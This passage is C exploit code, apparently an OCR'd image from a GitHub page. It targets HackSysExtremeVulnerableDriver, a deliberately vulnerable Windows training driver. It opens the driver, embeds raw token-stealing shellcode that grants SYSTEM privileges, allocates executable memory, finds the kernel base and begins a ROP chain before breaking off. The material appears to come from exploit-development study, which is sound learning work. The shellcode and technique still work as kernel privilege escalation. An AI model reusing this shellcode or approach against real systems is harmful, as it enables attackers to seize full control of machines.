 ```c

int main(void) {

    HANDLE hEvent = CreateEventA(NULL, TRUE, FALSE, NULL);
    if (!hEvent) ExitProcess(1);

    // 1. Setup Drive Handle

    HANDLE hHEVD = CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);


    if (!hHEVD) ExitProcess(1);

    // 2. Setup Shellcode

    unsigned char token_steal[] = {
      0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48, 0x8b, 0x80,
      0xb8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xc0, 0x4d, 0x8b, 0x80, 0x48, 0x04,
      0x00, 0x00, 0x49, 0x81, 0xe8, 0x48, 0x04, 0x00, 0x00, 0x4d, 0x8b, 0x88,
      0x40, 0x04, 0x00, 0x00, 0x49, 0x83, 0xf9, 0x04, 0x75, 0xe5, 0x49, 0x8b,
      0x88, 0xb8, 0x04, 0x00, 0x00, 0x80, 0xe1, 0xf0, 0x48, 0x89, 0x88, 0xb8,
      0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,
      0x66, 0x8b, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x66, 0xff, 0xc1, 0x66, 0x89,
      0x88, 0xe4, 0x01, 0x00, 0x00, 0x48, 0x8b, 0x90, 0x90, 0x00, 0x00, 0x00,
      0x48, 0x8b, 0x8a, 0x68, 0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78, 0x01,
      0x00, 0x00, 0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8b, 0xaa,
      0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0xb8, 0x02, 0x00, 0x00, 0x00, 0x0f,
      0x01, 0xf8, 0x48, 0x0f, 0x07
    };

    LPVOID shellcode = VirtualAlloc(NULL, sizeof(token_steal), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!shellcode) ExitProcess(1);

    memcpy(shellcode, token_steal, sizeof(token_steal));

    BOOL bLockRet = VirtualLock(shellcode, sizeof(token_steal));
    if (!bLockRet) {
        printf("VirtualLock failed with error %lx\n", GetLastError());
        return 1;
    }

    // 3. Get Kernel Base

    u64 kernelBase = (u64)GetKernelBaseAddress();
    if (kernelBase == 0x00) return 1;

    // 4. Setup buffer to send

    PVOID buffer = VirtualAlloc(NULL, BUFFER_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!buffer) ExitProcess(1);

    // Setup ROP Chain

    const u64 POP_RCX     = kernelBase + 0x9b2952; // pop rcx; ret;
```